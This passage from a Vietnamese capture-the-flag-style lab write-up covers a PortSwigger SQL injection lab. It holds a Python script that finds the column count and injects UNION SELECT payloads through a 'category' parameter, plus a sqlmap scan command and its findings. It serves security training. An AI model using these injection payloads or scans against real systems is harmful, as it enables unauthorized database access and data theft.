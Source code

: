```python
data_string = match.group()
data_string = data_string.split(': ')[1]
print(data_string)

# xác định số cột
for x in range(20):
    test_column = "' UNION SELECT " + "NULL," * x + "NULL--"
    params = {'category' : test_column,}
    response = session.get(url + "/filter",params=params,verify=False,)
    if(response.status_code == 200):
        print("bảng có số cột là: ", (x+1))
        break

payload = "' UNION SELECT NULL, " + data_string + ", NULL--"
params = {
   'category' : payload,
}
response = session.get(
    url + "/filter",
    params=params,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/H1d_7OhcT.png)

mục đích của chúng ta đã hoàn thành và mình đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/HykgNOhcp.png)

### SQLMAP

- mình đã làm lại bài này với sqlmap
- đầu tiên mình dùng lệnh sau để quét

```sql!
sqlmap -u https://0afb0092044d2e6780392b68009700af.web-security-academy.net/filter?category=Gifts  --batch
```

![ảnh](https://hackmd.io/_uploads/SyNXAfmh6.png)

và được database dùng PostgreSQL và có thể khai thác với kiểu tấn công UNION với 3 cột và sqlmap tìm được cột thứ 2 có kiểu string

![ảnh](https://hackmd.io/_uploads/ry_sRMQhT.png)

dùng payload mà sql cho mình in được dòng chữ **qqbjqgubDxLTuBPARNqUilGmsRvZIHalWZdTDcNlNmUUXqzzzq** ra màn mình
